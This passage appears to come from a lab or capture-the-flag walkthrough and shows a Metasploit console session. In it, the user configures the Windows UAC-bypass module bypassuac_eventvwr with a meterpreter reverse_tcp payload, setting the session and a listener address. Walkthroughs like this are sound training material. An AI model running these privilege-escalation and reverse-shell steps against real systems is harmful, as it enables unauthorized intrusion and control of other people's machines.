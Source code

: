 Use the exploit module, and set the required options
```bash
msf6 exploit(windows/http/icecast_header) > use exploit/windows/local/bypassuac_eventvwr
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/bypassuac_eventvwr) > show options 

Module options (exploit/windows/local/bypassuac_eventvwr):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86



View the full module info with the info, or info -d command.
```

set the local host and the session number that our target is running on
```bash
msf6 exploit(windows/local/bypassuac_eventvwr) > set session 1
session => 1
msf6 exploit(windows/local/bypassuac_eventvwr) > set LHOST 10.9.8.180
LHOST => 10.9.8.180
msf6 exploit(windows/local/bypassuac_eventvwr) > show options

Module options (exploit/windows/local/bypassuac_eventvwr):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.9.8.180       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86



```